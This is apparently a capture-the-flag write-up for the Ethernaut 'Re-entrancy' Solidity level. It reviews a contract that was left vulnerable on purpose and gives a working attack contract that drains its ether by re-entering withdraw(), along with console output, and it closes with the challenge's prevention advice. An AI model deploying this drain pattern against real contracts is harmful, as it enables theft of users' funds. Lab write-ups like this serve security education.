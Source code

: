 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Challenge's message.

>The goal of this level is for you to steal all the funds from the contract.Things that might help:
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

We have a basic smart contract that performs the banking function. The first thing we look at is it uses the SafeMath library for the type of uint256 variables because of prevents Integer Underflow vulnerability. Also, it has a defined public mapping named **balances** to document the address's balances in the contract. After that, there is **donate()** function to increase the address's balance. And then, we can learn someone's balance with the help of **balanceOf()** method. And finally, we have **withdraw()** function to withdraw the amount from our balance. 

However, there is something in the crash. We will talk about the next part :> In the end of the code, there is a candy. Usually, **receive()** functions are used to get ether for the contract with the low-level contract interaction. In this case, it is left blank. Why?

# Subverting

When we look at the target code from the hacker's perspective, we can clearly show in the withdraw function; the contract updated the balance after sending the amount to the user's address. What's wrong? In the design pattern, devs might think that contract always sends the amount to the user balance only once. Hereby, updating works correctly. But, in the end of the code a **receive()** function which is payable and left bank. It helps us to low level interaction to our attack contract when we want get some ether more. What is more, if we abuse this case to send ether to our address more than once, what will happen?

The entire amount in the contract will be transferred to the attacker's account. Brainful, isn't it? I explained this vulnerability so detail in my [reentrancy repository](https://github.com/wasny0ps/Reentrancy). I strongly recommend this article to understand reentrancy more clearly and learn how to prevent this vulnerability. Let's look our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IReentrancy{

    function donate(address _to) external payable;
    function withdraw(uint _amount) external;

}

contract Attack{

    IReentrancy target;

    constructor(address  _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable{
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive()external payable{
        if(address(target).balance >= 0.001 ether){
            target.withdraw(0.001 ether);
        }
    }
}
```
Before explain our attack contract, check target contract's balance.
```js
await getBalance(contract.address)
'0.001'
```
We learned entire amouunt in target contract as **0.001 ether**. Let's convert it to wei.

```js
await web3.utils.toWei('0.001','ether')
'1000000000000000'
```
After converting it to wei, it's time to explain the attack contract. First of all, this contract is a little bit different than other attack contracts. Because we used the **interface()** method to interact with other contracts easily. Also, before you use the interface, you must add into the interface method the same functions which are in the contract that we want to interact with. Otherwise, you will get an error. That's why, we use an interface to interact with the target contract. After that, get an instance of the target contract with enter the target contract's address in the constructor. 

In the **attack()** contract, it calls donate function and adds some value to our address's balance. In the next step, get ether back from the target contract. When the target contract sends **msg.value** to our attack contract, our **receive()** function welcomes the transaction. And then it calls **withdraw()** function again and again until target's balance less equal than 0.001 ether. While this process, target contract won't be updated the new balance. Thus, we get all money from the target contract. 🤑 

Let's bum out. Deploy the attack contract.

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/deploy.png">

Call attack function with sending 1000000000000000 wei.

<img width="200" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/attack.png">

And [show our hack](https://sepolia.etherscan.io/tx/0xdbaaf42d197de637ed949abc2580b89086e65c34d8135b64f1f2634816cb34fb)!

```js
await getBalance(contract.address)
'0'
```

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/result.png">

Challenge's message:
>In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used. transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.
Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.
Re-entrancy is a common attack. You should always be prepared for it!

**_by wasny0ps_**
